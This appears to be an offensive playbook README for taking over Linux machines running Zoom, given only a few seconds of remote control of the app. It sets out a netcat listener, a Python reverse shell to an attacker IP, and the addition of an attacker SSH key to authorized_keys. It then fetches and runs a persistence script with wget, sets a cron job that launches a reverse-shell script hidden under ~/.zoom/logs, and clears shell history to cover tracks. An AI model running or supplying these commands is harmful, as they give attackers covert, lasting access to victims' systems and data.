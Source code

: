 ## Foothold

1. Listen for reverse shell (Attacker)

        nc -lvnp 4444


2. Serve auxiliary files on python HTTP server (Attacker)

        python3 -m http.server

3. Launch reverse shell Or authorize our ssh key (Victim) 

        python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.89",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

    Or

        echo "ssh-ed25519 AAAAC3NzaC1lZ--------SNIP-------3QPLjdSBQj2WyXHr0H" >> ~/.ssh/authorized_keys



## Persistence 


### Load persistence script

        wget http://192.168.10.89:8000/victim/per.sh

        chmod +x ./per.sh

        ./per.sh

This will do the following:


1. Add attacker's SSH key to  authorized_keys 

- If necessary create the needeed folders and files and update their permissions.


2. Load reverse shell script for cron job and a linux system enumeration script.    


3. Add a cron job to run periodically to provide us another method of persistence 

- Could also be used to start persistent logging capabilities.

        (crontab -l ; echo "* * * * * ~/.zoom/logs/rev.sh ")|crontab 2> /dev/null



4. Erase shell history 

        history -c







## Access/Capabilities

- User level access to everything

- Only needs a few seconds of remote control on the Zoom application

- Further exploitation and data extraction can be done with more time and finesse


















Ubuntu 5.0.399860.0429
Manjaro 5.0.398100.0427-1